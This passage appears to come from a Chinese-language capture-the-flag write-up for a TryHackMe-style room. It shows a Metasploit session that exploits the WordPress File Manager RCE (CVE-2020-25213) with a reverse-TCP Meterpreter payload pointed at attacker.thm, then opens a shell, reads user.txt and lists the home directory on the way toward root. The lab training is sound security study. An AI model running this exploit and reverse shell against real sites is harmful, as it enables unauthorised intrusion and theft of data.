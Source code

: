 ```
       =[ metasploit v6.1.39-dev                          ]
+ -- --=[ 2214 exploits - 1171 auxiliary - 396 post       ]
+ -- --=[ 618 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View all productivity tips with the 
tips command

**msf6 > search CVE-2020-25213**
[... snip ...]
msf6 > use exploit/multi/http/wp_file_manager_rce
[*] Using configured payload php/meterpreter/reverse_tcp
[... snip ...]
**msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1**
RHOSTS => 127.0.0.1
**msf6 exploit(multi/http/wp_file_manager_rce) > set LHOST attacker.thm**
LHOST => attacker.thm
**msf6 exploit(multi/http/wp_file_manager_rce) > exploit**
[*] Started reverse TCP handler on attacker.thm:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] 127.0.0.1:80 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/JBzmCG.php
[*] Sending stage (39860 bytes) to badbyte.thm
[+] Deleted JBzmCG.php
[*] Meterpreter session 1 opened (attacker.thm:4444 -> badbyte.thm:43002 ) at [redacted] -0400

**meterpreter > pwd**
/usr/share/wordpress/wp-content/plugins/wp-file-manager/lib/files
**meterpreter > shell**
Process 1412 created.
Channel 0 created.
**id**
uid=1000(cth) gid=1000(cth) groups=1000(cth),27(sudo)
**exit**
**meterpreter > cd /home/cth**
**meterpreter > ls**
Listing: /home/cth
==================
[... snip ...]
100664/rw-rw-r--  38    fil   2021-03-23 17:36:05 -0400  user.txt
**meterpreter > cat user.txt**
[redacted]
**meterpreter >**
```

有了动态 Meterpreter shell 在网络上的“立足之地”,我现在可以进行这个房间的下一阶段了。下一步就是尝试获得`root`级权限。这个房间的用户试图利用一种“被颠覆的”，由于缺乏更好的术语，*认知密码攻击* ( [Bunnell 等人，1997](https://doi.org/10.1016/s0167-4048(97)00008-4) )，在这种攻击中，我们在目标机器上找到工件，并试图从它们中找出根密码。

我试着在`.bash_history`中寻找，但遗憾的是，它被象征性地与`/dev/null`联系在一起:

```
**$ ls -la**
total 36
drwxr-xr-x 4 cth  cth  4096 Mar 23  2021 .
drwxr-xr-x 4 root root 4096 Mar 23  2021 ..
lrwxrwxrwx 1 cth  cth     9 Mar 23  2021 .bash_history -> /dev/null
-rw-r--r-- 1 cth  cth   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 cth  cth  3771 Apr  4  2018 .bashrc
drwx------ 2 cth  cth  4096 Mar 23  2021 .cache
drwx------ 3 cth  cth  4096 Mar 23  2021 .gnupg
-rw-r--r-- 1 cth  cth   807 Apr  4  2018 .profile
-rw-r--r-- 1 cth  cth     0 Mar 23  2021 .sudo_as_admin_successful
-rw------- 1 cth  cth   739 Mar 23  2021 .viminfo
```